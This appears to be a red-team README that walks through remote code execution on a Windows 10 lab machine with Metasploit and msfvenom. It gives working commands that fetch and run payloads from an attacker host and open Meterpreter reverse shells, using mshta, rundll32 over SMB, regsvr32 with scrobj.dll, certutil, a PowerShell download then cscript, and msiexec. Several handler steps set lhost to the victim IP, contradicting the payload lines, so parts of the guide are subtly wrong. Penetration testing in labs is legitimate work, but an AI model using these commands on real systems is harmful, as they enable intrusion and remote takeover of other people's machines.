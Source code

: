 # Red Team RCE
# Remote code execution guide for Red Teaming

Note: Attacking machine IP: 192.168.100.42 (Kali/Ubuntu VM)
      Victim machine IP: 192.168.100.14 (Windows 10 Pro VM)

## Malicious hta file:

1. use exploit/windows/misc/hta_server
2. set srvhost 192.168.100.42 //or what the IP of Kali is
3. set lhost 192.168.100.14 //or what the IP of Victim is 
4. set PAYLOAD windows/meterpreter/reverse_http
5. set lhost 192.168.100.14 //or what the IP of Victim is 
6. set LPORT 80 //or any port you want
7. set SessionCommunicationTimeout 0
8. set ExitOnSession false
9. exploit –j

Now metasploit will give you the URL of the malicious hta file, it will be something like:
 - [*] Using URL: http://192.168.100.42/sldfkghlasdfk.hta
If you have chosen a different port (i.e. 1234), it will be like http://192.168.100.42:1234/sldfkghlasdfk.hta

Now, in the victim machine you will run:
 - mshta.exe http://192.168.100.42/sldfkghlasdfk.hta

Hint: Before “exploit -j” run “show options” and if something mandatory is blank, then it should be filled. 

## Malicious dll file:

1. use exploit/windows/smb/smb_delivery
2. set srvhost 192.168.100.42 //or what the IP of Kali is
3. set PAYLOAD windows/meterpreter/reverse_http
4. set lhost 192.168.100.14 //or what the IP of Victim is 
5. set LPORT 80 //or any port you want
6. set SessionCommunicationTimeout 0
7. set ExitOnSession false
8. exploit –j

Now metasploit will give you the command to run, like:
 - msf exploit(windows/smb/smb_delivery) > rundll32.exe \\192.168.100.42\fiWi\test.dll,0
	
Now, in the victim machine you will run:
 - rundll32.exe \\192.168.100.42\fiWi\test.dll,0

Hint: Before “exploit -j” run “show options” and if something mandatory is blank, then it should be filled. 


## Malicious sct file:

1. use exploit/multi/script/web_delivery
2. set target 3 //or “show targets” and choose adequately
3. set PAYLOAD windows/meterpreter/reverse_http
4. set lhost 192.168.100.14 //or what the IP of Victim is 
5. set srvhost 192.168.100.42 //or what the IP of Kali is
6. set LPORT 80 //or any port you want
7. set SessionCommunicationTimeout 0
8. set ExitOnSession false
9. exploit –j

Metasploit will give you the command to run, like:
 - [*] Run the following command on the target machine:
regsvr32 /s /n /u /i:http://192.168.100.42:8080/asdfasdf.sct scrobj.dll

Now, in the victim machine run:
regsvr32 /s /n /u /i:http://192.168.100.42:8080/asdfasdf.sct scrobj.dll

Hint: Before “exploit -j” run “show options” and if something mandatory is blank, then it should be filled. 


## Certutil:

1. msfvenom -p windows/meterpreter/reverse_http lhost=192.168.100.42 lport=4443 -f exe > malware.exe
2. Run apache to serve malware.exe or simpleHTTPServer from python, i.e.:
 - python -m SimpleHTTPServer 80 
 - this should serve http://192.168.100.42/malware.exe
3. use exploit/multi/handler
4. set payload windows/meterpreter/reverse_http
5. set lhost 192.168.100.14
6. set lport 4443
7. set SessionCommunicationTimeout 0
8. set ExitOnSession false
9. exploit –j

On the victim machine run on a command prompt:
 - certutil.exe -urlcache -split -f http://192.168.100.42/malware.exe malware.exe & malware.exe


## Cscript:

1. msfvenom -p cmd/windows/reverse_powershell lhost=192.168.100.42 lport=4443 -f vbs > mal.vbs
2. Run apache to serve mal.vbs or simpleHTTPServer from python, i.e.:
 - python -m SimpleHTTPServer 80 
 - this should serve http://192.168.100.42/mal.vbs
3. use exploit/multi/handler
4. set payload windows/meterpreter/reverse_http
5. set lhost 192.168.100.14
6. set lport 4443
7. set SessionCommunicationTimeout 0
8. set ExitOnSession false
9. exploit –j

Nn the victim machine run:
 - powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('http://192.168.100.42/mal.vbs',\"$env:temp\test.vbs\");Start-Process %windir%\system32\cscript.exe \"$env:temp\test.vbs\""


## Msiexec:

1. msfvenom -p cmd/windows/reverse_powershell lhost=192.168.100.42 lport=8080 -f msi > mal.msi
2. Run apache to serve mal.vbs or simpleHTTPServer from python, i.e.:
 - python -m SimpleHTTPServer 80 
 - this should serve http://192.168.100.42/mal.msi
3. use exploit/multi/handler
4. set payload windows/meterpreter/reverse_http
5. set lhost 192.168.100.14
6. set lport 8080
7. set SessionCommunicationTimeout 0
8. set ExitOnSession false
9. exploit –j

Now on the victim machine ruun:
 - msiexec /q /i http://192.168.100.42/mal.msi

This can also be replicated by generating the .exe from step 1 of certutil and manually packing it as msi using a freeware tool (i.e. msipacker).
